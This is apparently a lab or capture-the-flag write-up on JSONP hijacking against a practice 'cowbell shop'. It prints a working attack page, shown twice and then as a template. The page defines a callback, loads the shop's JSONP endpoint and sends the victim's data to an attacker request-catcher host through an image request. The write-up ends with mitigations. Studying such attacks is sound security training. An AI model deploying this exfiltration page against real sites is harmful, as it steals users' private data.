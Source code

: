 # JSON Hijacking Attack with JSONP

## Challenge

This challenge is about JSON \(JSONP\) hijacking. By doing such an attack you should understand the theory.

## Answer

### Explain the security problem 

* **JSONP** = JavaScript Object Notation with **Padding**
* Technique used to circumvent the Same-Origin Policy when transferring data with AJAX across

  different domains

* Browsers do not enforce SOP on the HTML &lt;script&gt; tag
* Padding refers to characters around the JSON payload, e.g.
  * `callback({employees: [{“firstName”: “John”, “lastName”: “Doe”}, ...]})`



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Use old cowbell shop, buy some bells

![](../../.gitbook/assets/image%20%28367%29.png)

Step 2\) Use Theia Web IDE and change the change\_me.html to the following:

{% code title="change\_me.html" %}
```markup
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land//12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>

```
{% endcode %}



Step 3\) Send attacker URL to the victim

![](../../.gitbook/assets/image%20%28381%29.png)

Step 4\) 

![](../../.gitbook/assets/image%20%28374%29.png)

Step 5\) 

```markup
<html>
<head>
<script>
var target="https://REQUEST_CATCHER_FQDN/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="{VULNERABLE COWBELL SHOP}/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
```

The attacker is defining the `invoke` method before `script src` an URL from the cowbell shop. The json data returned by the cowbell shop are jsonp - json with padding. This makes the hacker happy - as he can now exfiltrate the json data via his own `invoke` implementation.

### Explain mitigation \(remedy\)

* Use Anti XSRF-Tokens
* Begin the JSON-Response with an infinite loop:
* DO NOT USE JSONP!



## Lösung HL



* kein JSONP einsetzen!
* Use SameSite
* Use anti-XSRF on webserver. Only allow downloading JSON objects with valid anti-XSRF token.
* Insert invalid or problematic JavaScript at the start of the response \(e.g while\(1\);\).
* Only allow POST requests for JSON objects.

